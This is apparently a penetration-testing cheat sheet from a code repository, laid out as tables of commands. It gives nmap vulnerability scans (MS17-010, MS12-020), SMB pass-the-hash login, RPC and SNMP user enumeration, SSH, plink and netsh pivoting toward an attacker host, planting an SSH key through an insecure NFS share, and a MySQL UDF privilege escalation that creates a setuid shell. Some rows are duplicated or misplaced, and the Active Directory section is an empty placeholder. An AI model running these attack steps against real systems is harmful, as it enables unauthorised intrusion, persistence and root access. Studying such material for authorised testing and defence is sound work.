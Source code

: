 
### Service Enumeration To Identify how Many TCP and UDP Port is being Opened

| for Example  |
| ------------- |
|nmap -Pn -n --open -p500  192.168.0.0/24 |
|nmap -Pn -n --open -p161  192.168.0.0/24 |
|nmap -p445 --script smb-vuln-ms17-010 x.x.x.0/24|
|nmap -sV --script=realvnc-auth-bypass x.x.x.0/24|
|nmap --script http-webdav-scan -p80,8080 x.x.x.0/24|
|nmap -p80 --script http-default-account x.x.x.0/24|
|nmap -Pn -n --open -p6000-6005 --script=x11-access 172.31.6.0/24  |
|nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
|nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
|nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


### Linux and Microsoft RPC service Enumeration

| for Example |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |
| smbclient \\\\10.10.10.103\\C$ -U "Administrator" --pw-nt-hash f6b7160bfc91823792e0ac3a162c9267 |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |

### Commonly Users and Service Enumeration Through Running RPC and SNMP Services

|for Example  |
| ------------- |
|rpcclient –U “” [target IP address] |
| > querydominfo |
| >enumdomusers|
| >queryuser msfadmin| 
| >queryuser msfadmin|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25 #User|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2 # Running Service|
| snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5 #Hostname |
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1 #Share Information|
|snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3 #Openning Port|



### Advanced SSH Tunneling and Port Forward

| for Example |
| ------------- |
|ssh -L 127.0.0.1:8080:127.0.0.1:80 remotehost |
|ssh -nNT -L 8000:localhost:3306 user@pivoting host #Local Port Forwarding |
|ssh -nNT -R 0.0.0.0:4000:192.168.1.101:631 user@pivot host |
|ssh -D 5000 -nNT user@pivoting host #SOCKS Proxy|
|ssh -p 13339 -f -N j0hn@10.11.1.252  |
|ssh -N -f -D 8888 -p 22000 j0hn@192.168.13.252 |
|plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8 #winexe -U Administrator //127.0.0.1 "cmd.exe|
|plink.exe -l root -pw  -R 3389:127.0.0.1:3389 10.10.14.8 #rdesktop -U Administrator 127.0.0.1 |
|ssh -nNT -R 3389:localhost:3389 user@pivot host #Remote Port Forward |
|netsh interface portproxy add v4tov4 listenport=1111 Compromise Box=x.x.x.1 connectport=1111 connectaddress=Attacker|
|netsh interface portproxy add v4tov4 listenport=1111 listenaddress=x.x.x.1 connectport=1111 connectaddress=x.x.x.10 |
|netsh interface portproxy add v4tov4 listenport=9001 listenaddress=x.x.x.1 connectport=9001 connectaddress=x.x.x.100 |


### Insecure NFS Share Vulnerabilities

| for Example |
| ------------- |
| showmount -e 192.168.100.25 #Check if any share is available |
| mount -t nfs 192.168.100.25:/home /tmp/NFS |
| mount -t nfs 192.168.1.112:/ /mnt -o nolock |
| mkdir -p /root/.ssh # We May Upload SSH Key to NFS |
| ssh-keygen -t rsa -b 4096 |
| cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/ |
| cat authorized_keys |
| cat id_rsa.pub >> authorized_keys |
|ssh -i /root/.ssh/hacker_rsa root@192.168.1.112|


### MySQL Privilge Escalation Through UDF

| for Example|
| ------------- |
|gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc|
| use mysql; |
|create table npn(line blob); |
| insert into npn values(load_file('/tmp/raptor_udf2.so')); |
|select * from npn into dumpfile '/usr/lib/raptor_udf2.so';|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |


### X 11  Commond Vulnerability

| for Example  |
| ------------- |
| use auxiliary/scanner/x11/open_x11 |
| nmap -p 6000 --script=x11-access 192.168.2.26,75 |
|create table npn(line blob); |
| xdpyinfo -display 192.168.2.75:0 | head -n 5 |
|xspy -display 192.168.1.23:0 -delay 100|

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

### Active Directory Enumeration 

|Active Directory Enumeration | for Example |
| ------------- | ------------- |
| Test | TEST|


